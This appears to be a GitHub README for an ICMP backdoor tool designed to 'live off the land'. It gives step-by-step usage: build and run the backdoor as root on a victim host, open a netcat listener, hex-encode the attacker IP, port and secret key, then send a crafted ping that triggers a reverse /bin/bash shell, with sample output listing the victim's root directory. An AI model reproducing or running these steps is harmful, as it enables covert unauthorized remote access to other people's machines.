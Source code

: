 An altered version of the ICMP backdoor that doesn't rely on `nping` as to maximize the live-off-the-land-ness.  

# Usage
On the host machine:
```
$ make
$ sudo ./backdoor
```
Check the secret:
```
$ ./backdoor -v                                         
Secret Key:		0x427e
Service Name:		backdoor
Shell Path:		/bin/bash
```

On the attacker machine, start your netcat listener:
```
$ nc -lnvp <port>
```
Then, we need to convert the IP and port to hex. We can easily do this with a python shell:
```
$ python
>>> import socket
>>> socket.inet_aton("127.0.0.1").hex()
'7f000001
>>> hex(int(4096))
'0x1000'
```
Our payload just becomes `<attacker ip hex> + <port> + <secret>`. In this case:
```
$ ping -c 1 -p "7f0000011000427e" <victim ip>
```
And bam! We get our shell:
```
$ nc -l -p 4096
/bin/bash
ls
bin
boot
dev
etc
home
keybase
lib
lib64
lightdm
lost+found
media
mnt
nix
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```
